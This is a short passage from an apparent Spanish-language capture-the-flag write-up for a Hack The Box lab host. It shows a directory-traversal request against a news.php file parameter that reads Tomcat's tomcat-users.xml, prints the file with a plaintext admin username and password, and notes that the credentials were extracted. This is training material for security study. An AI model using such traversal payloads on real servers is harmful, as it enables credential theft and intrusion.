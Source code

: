 ```bash
http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

```bash
?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at
      http://www.apache.org/licenses/LICENSE-2.0
  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Sacamos las credenciales `tomcat` y `$3cureP4s5w0rd123!`, por lo que vamos a ver que podemos hacer con esto.
